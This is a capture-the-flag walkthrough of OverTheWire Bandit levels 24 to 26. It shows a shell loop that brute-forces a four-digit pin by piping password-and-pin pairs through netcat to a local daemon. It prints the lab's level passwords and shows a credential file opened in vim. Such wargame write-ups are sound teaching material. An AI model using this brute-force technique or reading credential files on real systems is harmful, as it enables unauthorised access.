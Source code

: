 ## 
Bandit Level 24 → Level 25
**Level Goal**

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

```
bandit24@bandit:/tmp/tmp.89890$ for i in $(seq -f "%04g" 0 9999); do   echo "$(cat /etc/bandit_pass/bandit24) $i"; done >> pass.txt  

bandit24@bandit:/tmp/tmp.89890$ head -n 3 pass.txt && cat pass.txt | wc -l
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0002
10000

bandit24@bandit:/tmp/tmp.89890$ cat pass.txt | nc localhost 30002 > out.txt 
bandit24@bandit:/tmp/tmp.89890$ cat out.txt | grep -v "Wrong!"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:/tmp/tmp.89890$
```

**Explanation**
- We have generated range of password pincode combination pairs in the `pass.txt` file, where the password for `bandit24` is paired with each 4-digit combination.
- The total number of entries in `pass.txt` was confirmed using `cat pass.txt | wc -l`, which showed 10,000 entries.
- The contents of `pass.txt` were piped to `nc` (netcat) to send the password-pincode pairs to a service running on `localhost` on port `30002`
- After filtering the responses, the correct password for `bandit25` was identified.

## Bandit Level 25 → Level 26
**Level Goal**

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.


> Note: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.
{: .prompt-info }

```
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
~                                                                                                                      "/etc/bandit_pass/bandit26" [readonly] 1L, 33B                                                                                                                            1,1           All
bandit25@bandit:~$
```
